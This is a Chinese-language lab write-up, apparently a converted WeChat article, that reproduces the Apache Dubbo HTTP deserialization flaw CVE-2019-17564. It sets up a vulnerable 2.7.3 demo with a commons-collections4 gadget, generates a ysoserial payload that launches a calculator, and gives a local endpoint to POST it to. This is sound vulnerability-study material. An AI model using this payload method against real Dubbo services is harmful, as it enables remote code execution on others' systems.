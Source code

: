 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/D7-jvUTd9lK\_kgf\_9Q5-Og)

  

  

**1.Du****b****b****o** 框架简介

Dubbo 是⼀个⾼性能服务框架，致⼒于提供⾼性能和透明化的 RPC 远程服务调⽤⽅案，以及 SOA 服务治理⽅案，使得应⽤可通过⾼性能 RPC 实现服务的输出和输⼊功能，和 Spring 框架可以⽆缝集成。

作为⼀个分布式服务框架，以及 SOA 治理⽅案，Dubbo 其功能主要包括：

1\. ⾼性能 NIO 通讯及多协议集

2\. 成服务动态寻址与路由

3\. 软负载均衡与容错

4\. 依赖分析与服务降级

具体看这篇⽂章：https://www.jianshu.com/p/0daf78e14dcf

  

2.CVE-2019-17564

**1.** 漏洞简介

Apache Dubbo ⽀持多种协议，推荐官⽅使⽤ Dubbo 协议。Apache Dubbo HTTP 协议中的⼀个反序

列化漏洞（CVE-2019-17564），漏洞该主要原因的在于当 Apache Dubbo 启⽤ HTTP 协议之后，Apache Dubbo 对 HTTP 数据处理不当：对数据编码、序列化、反序列化，利⽤ Spring HTTP Invoker 框架处理，未经任何检查直接反序列化数据，当项⽬包中存在可⽤的 gadgets 时即可导致远程代码执⾏。

**2.** 影响范围

2.7.0 <= Apache Dubbo <= 2.7.4.1 

2.6.0 <= Apache Dubbo <= 2.6.7 

Apache Dubbo = 2.5.x

**3.** 环境搭建

dubbo-demo:https://github.com/apache/dubbo-samples/tree/master/java/dubbo-samples-http ⽤ idea 打开后，需要修改 pom.xml ⽂件中的 <dubbo.version>，将版本改为存在漏洞的 2. 7. 3

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09XThsVjtSIgPyWibz6feKJqdKP7aEG8ptN2xwOJIGwKJMSU54dG15v5yvWMSPNHiaXBGVv5AXzZYkg/640?wx_fmt=png)

  我们再往⾥⾯添加本地触发 gadgets，这⾥导⼊ commons-collections4-4.0 恶意类依赖。

```
<dependency>
<groupId>org.apache.commons</groupId>
<artifactId>commons-collections4</artifactId> <version>4.0</version>
</dependency> 
```

由于 dubbo 启动还依赖 zookeeper，因此我们还需要安装 zookeeper

https://apache.website-solution.net/zookeeper/zookeeper-3.6.2/apache-zookeeper-3.6.2-bin.tar.gz

运⾏ zookeeper 之前，我们还需要修改⼀些配置⽂件：

将 zookeeper 的 conf ⽬录下的 zoo\_sample.cfg ⽂件改成 zoo.cfg 并修改其中的两个参数

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09XThsVjtSIgPyWibz6feKJqfYgndhNkFNFXyonjasS4ErzWljhBgankVNul74Jfm5icsPquFuaQFlQ/640?wx_fmt=png) 

然后 cd 到 zookeeper 的 bin ⽬录下./zkServer.sh start 启动 zookeeper 随后启动 dubbo 项⽬中的 HttpProvider

出现下图红框中的提⽰，则证明环境搭建成功。

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09XThsVjtSIgPyWibz6feKJqicUb5mpviahTId75eQ1KJBic785EhLXwYbyib1SNaicqhLHno4oX6PYlvQA/640?wx_fmt=png)

**4.** 漏洞复现

我们⾸先⽤ yso 来⽣成⼀个序列化的 payload：

```
java-jarysoserial-0.0.6-SNAPSHOT-all.jarCommonsCollections4"deepin-calculator">/tmp/payload.ser
```

而后⽤ postman 往

```
http://192.168.199.246:8090/org.apache.dubbo.samples.http.api.DemoService
```

POST 我们⽣成的

```
payload.ser
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibiarFfCb4DNv9CkaFnPsQtetjvmfJOuDSkOiabHLmyOxzsicSRHsmqFmRovFic9TT0iaY4P6mSxSwu9Rw/640?wx_fmt=png)